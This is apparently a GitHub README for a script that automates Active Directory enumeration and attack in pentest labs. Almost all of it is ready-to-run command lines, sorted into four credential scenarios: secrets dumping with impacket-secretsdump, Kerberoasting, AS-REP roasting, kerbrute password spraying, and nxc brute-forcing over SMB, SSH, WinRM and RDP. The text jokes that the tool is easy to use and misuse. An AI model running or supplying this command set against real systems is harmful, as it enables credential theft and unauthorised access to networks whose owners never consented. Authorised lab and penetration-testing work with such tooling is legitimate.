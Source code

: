 # VeryStupidEnumeration
Stupid? Well you came to the right place. 


Sometimes I don't remember which Impacket script to use as I do Pentest Labs, and sometimes I just want to run all of them at once like a script kiddie, but dumber and lazier. I'm creating the script as a way to dump a ton of information at myself at once, hoping that something, anything, jogs my memory into accidentally doing something smart on autopilot. 

Pros: It easy.

Cons: Someone might see you, and if you live in an at-will state, you could be fired. 

## Usage
This script *prompts you* for Domaoin, IP, dc-ip, user or userlist, and password or passwordlist, and then runs commands based on what you gave it with these four scenarios:
1. valid user and password
2. valid user and password list
3. user list and valid password
4. user list and password list (good luck dummy)

You probably don't want to run this with long lists, use something else for that. It will run a bunch of commands, and then send the output to a file. Here are the commands that it runs based on each of the scenarios:

Scenario 1 (user/password): 
- `bloodhound-python -u $user -p '$password' -ns $ip -d $domain -c all`
- `enum4linux -u "$user" -p "$password" -a $IP`
- `impacket-secretsdump $domain/$user:'$password'@$IP`
- `impacket-GetUserSPNs $domain/$user:'$password' -dc-ip $DC-IP`
- `impacket-GetNPUsers $domain/$user:'$password' -dc-ip $DC-IP`
- `impacket-rpcdump $domain/$user:$password@$IP`
- `ldapdomaindump -u $domain\\$user -p '$password' $domain -o ldapdomaindump`
- `nxc ldap $IP -u $user -p $password --kdcHost $IP -M laps`
- `nxc smb $IP -u $user -p '$password' -d $domain` 
- `nxc ssh $IP -u $user -p '$password' -d $domain` 
- `nxc winrm $IP -u $user -p '$password' -d $domain` 
- `nxc rdp $IP -u $user -p '$password' -d $domain --rdp-timeout 30` 
- `smbclient -L //$IP/ -U $user%$password`

Scenario 2 (user/passwordlist):
- `enum4linux -a $IP`
- `kerbrute bruteuser -d $domain $passwordlist $user`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc ssh $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc winrm $IP -u $user -p $passwordlist -d $domain --continue-on-success`
- `nxc rdp $IP -u $user -p $passwordlist -d $domain --continue-on-success --rdp-timeout 30`
-`smbclient -L \\\\$IP\\ -u '$user' -p ''`

Scenario 3 (userlist/password):
- `enum4linux -a $IP`
- `kerbrute passwordspray -d $domain $userlist $password`
- `kerbrute userenum -d $domain $userlist`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc ssh $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc winrm $IP -u $userlist -p '$password' -d $domain --continue-on-success`
- `nxc rdp $IP -u $userlist -p '$password' -d $domain --continue-on-success --rdp-timeout`
- `smbclient -L \\\\$IP\\ -N`

Scenario 4 (userlist/passwordlist):
- `enum4linux -a $IP`
- `kerbrute userenum -d $domain $userlist`
- `ldapsearch -LLL -x -H ldap://$domain -b'' -s base '(objectclass=\*)'`
- `nxc smb $IP -u '' -p '' --shares --users`
- `nxc ssh $IP -u $userlist -p $passwordlist`
- `nxc winrm $IP -u $userlist -p $passwordlist`
- `nxc rdp $IP -u $userlist -p $passwordlist --rdp-timeout 30`
- `smbclient -L \\\\$IP\\ -N`
  
It could not be easier, and frankly it shouldn't be this easy. 
